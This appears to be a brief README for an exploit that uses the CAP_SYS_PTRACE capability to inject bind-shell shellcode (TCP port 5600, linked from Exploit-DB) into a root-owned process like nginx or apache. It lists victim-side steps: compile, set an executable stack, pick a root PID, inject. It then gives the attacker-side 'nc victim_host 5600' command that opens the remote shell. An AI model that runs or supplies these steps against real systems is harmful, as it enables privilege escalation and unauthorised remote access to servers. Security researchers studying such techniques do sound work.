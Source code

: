 # memory_inject CAP_SYS_PTRACE capability

Linux/x64 - Bind (5600/TCP) Shell Shellcode (87 bytes) 
https://www.exploit-db.com/exploits/41128

1) The EUID of the process in 0 (aka privileged process)
2) The program file has CAP_SYS_PTRACE capability to debug the process 

TCP bind shell

victim host
1) $ gcc -o bind_shell bind_shell.c
2) $ execstack -s bind_shell
3) ps -eaf -> find pid number under root (apache, nginx, python, etc)
4) $ ./bind_shell <pid number>

attacker host
1) $ nc victim_host 5600
